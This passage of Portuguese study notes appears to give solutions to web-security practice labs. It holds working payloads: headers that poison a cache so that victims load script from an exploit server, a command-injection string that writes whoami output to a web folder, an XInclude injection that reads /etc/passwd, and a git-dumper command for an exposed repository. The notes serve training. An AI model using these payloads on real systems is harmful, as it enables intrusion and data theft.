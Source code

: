 Use esse header com o header `X-Forwarded-Host` para redirecionar o usuário para seu exploit server.
```
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0ab300bf03adb37181e4d360010c007b.exploit-server.net
```

Nota: você precisa envenenar o arquivo `/resources/js/tracking.js` e não a página home `/`.

<br>
<br>

**Lab: Information Disclosure in Version Control History**
```
git-dumper https://0a3200d504033dce82e5f7a100de0017.web-security-academy.net/.git .

git log --stat
 
git show 8d7bd37bfe266c9d948e8bfea4e04ef8397a558d
```


<br>
<br>

**Lab: Blind OS Command Injection with Output Redirection**

Tem um diretório passível de escrita em `/var/www/images/`.
```
||+whoami+>+/var/www/images/whoami.txt||
```

Acesse o arquivo em: `/image?filename=whoami.txt`.

<br>

**Lab: Discovering Vulnerabilities Quickly with Targeted Scanning**

Utilize o Active Scan em `POST /produck/stock`.

Isso vai identificar a injeção XML, então copie o comando e adapte para ler o arquivo `/etc/passwd`.
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

